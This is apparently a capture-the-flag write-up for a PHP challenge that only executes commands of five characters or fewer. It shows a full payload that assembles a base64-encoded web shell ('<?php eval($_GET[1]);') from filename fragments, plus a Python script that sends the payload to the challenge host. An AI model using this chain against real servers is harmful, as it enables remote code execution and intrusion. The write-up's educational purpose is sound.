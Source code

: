 # Web: Less than 5 

![image](https://user-images.githubusercontent.com/74207547/164990551-4ab3d77a-363c-400e-932f-6063131ebac4.png)

## Website:

![image](https://user-images.githubusercontent.com/74207547/164990589-4978a78f-0952-46e6-ae9f-36a25ec5398a.png)

There is a blank white page. Let's test parameters from challenge description - `cmd` and `reset`

![image](https://user-images.githubusercontent.com/74207547/164990694-7b04edc3-8752-449b-b88e-620366e2f8f6.png)

![image](https://user-images.githubusercontent.com/74207547/164990699-6d901926-4fae-4b53-9b27-8c2214586ff2.png)

We don't get any output from that. Maybe we should search for some **edge cases** to see how app behaves.

![image](https://user-images.githubusercontent.com/74207547/164991052-8d48fafe-25ec-477c-b6d3-91b84153ce6e.png)

**Null byte** works as always in php scritps. Now we can check how length control is being handled.

![image](https://user-images.githubusercontent.com/74207547/164991027-ddf10e53-b2a7-4f43-8636-5ff3683febb1.png)
![image](https://user-images.githubusercontent.com/74207547/164990967-bedaee60-a230-4ff9-a7ac-8adf3d604add.png)

Input build of more than 5 characters is **not going throught exec function.**

## Fight with input length:

At first I thought the challenge was about simple command injection.
I tried using `*`, `>` to read flag or index.php but didn't get anything.
The length of 5 was too small to get any progress there.
The only thing that I acomplished was creating files with short names and reading them.
This led me to **executing ls and reading the output.**
![image](https://user-images.githubusercontent.com/74207547/164991334-687b6b23-0897-4d13-8acf-3a83715c427d.png)
![image](https://user-images.githubusercontent.com/74207547/164991343-4fd447ab-f0e9-4e1d-bfce-008700baad4b.png)

That's something. At that moment I knew the challenge is about creating payload from multiple files.
It is also said in challenge description that files are being removed every 2 mins so keep that in mind.

## Research:

After feeling a bit helpless I started to google for **short php** payloads. I stumbled upon few interesting articles.
* [blog.spacepatroldelta.com](https://blog.spacepatroldelta.com/a?ID=01800-96c1d853-a6ab-4a27-b2c5-157e586418d3)
* [blog.csdn.net/](https://blog.csdn.net/nzjdsds/article/details/102940762)


In above articles they are basically spliting the command `echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php` in multiple files.
Then they are using `ls -t>0` to sort files by the time they were created and put all of them into one file - `0`.
When that succeed they execute `0` with `sh 0` and the outcome is `1.php` file with php content - **`<?php eval($_GET[1]);`** which enables executing any command we want.
Backslashes `\\` keep all files as one payload and `${IFS}` is being used to replace one of the spaces.

![image](https://user-images.githubusercontent.com/74207547/164992329-77f4dacf-4211-4e8f-bc2d-1182fae6c29b.png)

The hardest part is executing `ls -t>0`. This line have much more than 5 chars so how they got around it?

![image](https://user-images.githubusercontent.com/74207547/164992694-919a57d3-18a9-4016-ae52-3b5fa4b8ce69.png)

**That's pure magic. How does it even work?**

First we need to understand few commands:
* dir - same as ls
* rev - reverses the input `echo 1234|rev` -> `4321`

So at first they are building a reversed payload. With `*>v` they are calling dir (first file in the folder in alphabetical order) which lists other files and then saves it to `v` file.
Next they uses rev to reverse the payload and move it to another file `0`
Well that works. Pretty crazy way to get around it.

**I found everything that is needed right? Copy, paste, run, didn't work. Unfortunately, it wasn't that simple.**

## Local setup

I created a simple php script that simulates the behavior of the challenge.
```php
<?php 
  if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5){exec($_GET['cmd']);}
?>
```

After a while I knew what didn't work. When building up a `ls -t` from files there is one diffrence between articles and actual challenge. We also have `index.php` in same directory which breaks the whole payload.

![image](https://user-images.githubusercontent.com/74207547/164993458-fca51e60-afec-4289-ac5a-d8cc49fc85ff.png)

Index.php got between the files and whole thing was messed up. I had to find reversed payload that will go after `index.php`

```
>dir
>n\>
>pt-
>l\|
>sl
*>v
>rev
*v>0
```

**Found it!** Below how it works.

![image](https://user-images.githubusercontent.com/74207547/164993612-daf15c12-49a7-4148-a232-0d4e3fd799bc.png)

# Solution:

I created simple python script which creates all the files needed and calls `1.php` endpoint to check if it worked.

```python
import requests 

url = "http://142.93.209.130:8003/?cmd={0}"

with open("payload.txt","r") as f:
        for i in f:
                print("[*]" + url.format(i.strip()))
                requests.get(url.format(i.strip())) 

test = requests.get("http://142.93.209.130:8002/1.php")
if test.status_code == requests.codes.ok:
        print("Success!!!")
```

```
payload.txt
>dir
>n\>
>pt-
>l\|
>sl
*>v
>rev
*v>0
>php
>1.\\
>\>\\
>d\\
>\-\\
>\ \\
>4\\
>e6\\
>s\\
>ba\\
>\|\\
>4K\\
>Pz\\
>7\\
>k\\
>XS\\
>x\\
>Fs\\
>V\\
>dF\\
>0\\
>kX\\
>g\\
>bC\\
>h\\
>XZ\\
>Z\\
>Ag\\
>H\\
>wa\\
>9\\
>PD\\
>\}\\
>FS\\
>I\\
>\{\\
>$\\
>ho\\
>ec\\
sh 0
sh n
```
![image](https://user-images.githubusercontent.com/74207547/164993848-6d436385-4934-4bb7-8873-755b58b3939b.png)
![image](https://user-images.githubusercontent.com/74207547/164993863-0feef127-dbce-4cab-ae6f-966020a5c176.png)

## FLAG: ictf{5ch4r5_4re_3n0ugh_bd903}
